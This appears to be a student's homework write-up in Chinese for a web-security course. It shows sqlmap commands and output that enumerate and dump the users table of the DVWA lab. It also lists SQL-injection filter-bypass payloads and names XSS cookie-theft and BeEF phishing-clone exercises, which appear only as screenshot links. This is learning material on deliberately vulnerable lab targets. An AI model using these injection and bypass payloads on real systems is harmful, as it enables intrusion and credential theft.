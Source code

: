 ## 1.使用 sqlmap 工具完成对 DVWA 数据库的注入过程，要求按照库、表、列、内容的顺序进行注入。

D:\python3\sqlmap>python sqlmap.py -r 1.txt --batch -p id --current-db

[13:52:25] [INFO] fetching current database
current database: 'dvwa'



D:\python3\sqlmap>python sqlmap.py -r 1.txt --batch -p id --tables -D dvwa

[13:57:12] [INFO] fetching tables for database: 'dvwa'
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+



D:\python3\sqlmap>python sqlmap.py -r 1.txt --batch -p id --columns  -D dvwa

[14:19:30] [INFO] fetching tables for database: 'dvwa'
[14:19:30] [INFO] fetching columns for table 'guestbook' in database 'dvwa'
[14:19:30] [INFO] fetching columns for table 'users' in database 'dvwa'
Database: dvwa
Table: guestbook
[3 columns]
+------------+----------------------+
| Column     | Type                 |
+------------+----------------------+
| comment    | varchar(300)         |
| name       | varchar(100)         |
| comment_id | smallint(5) unsigned |
+------------+----------------------+

Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+



D:\python3\sqlmap>python sqlmap.py -r 1.txt --batch --dump -T users

users表数据在users.csv里

## 2.练习课件上给出的 SQL 注入绕过方式。

大小写绕过    SELECt   1;

关键字绕过     selselectect  last_name  from  users;

用编码绕过     %73%65%6c%65%63%74 1;(select 1 的 URL编码)

用注释绕过     select/**/1;

​                       select  user,password  from  users  /*!union*/    /*!all*/  /*!select*/  1,2;

使用等价函数和命令        select 0x61;

​                        select  user,password  from  users   where   user_id  =  1   &&   1 = 1;

使用特殊符号   select  user,password  from`users`   where   user_id  =  1   &&   1 = 1;

​                       select+password-1+1.from users;

##  3.XSS

- ## 使用 pikachu 平台练习 XSS 键盘记录、前台 XSS 盲打攻击获取 cookie；

  ![1](C:\Users\七号程序员詹姆师\Desktop\week8\1.png)

![2](C:\Users\七号程序员詹姆师\Desktop\week8\2.png)



![3](C:\Users\七号程序员詹姆师\Desktop\week8\3.png)

- ## 使用 beef 制作钓鱼页面，克隆任意站点的登录页面并获取用户登录的账号密码。

  ![4](C:\Users\七号程序员詹姆师\Desktop\week8\4.png)

![5](C:\Users\七号程序员詹姆师\Desktop\week8\5.png)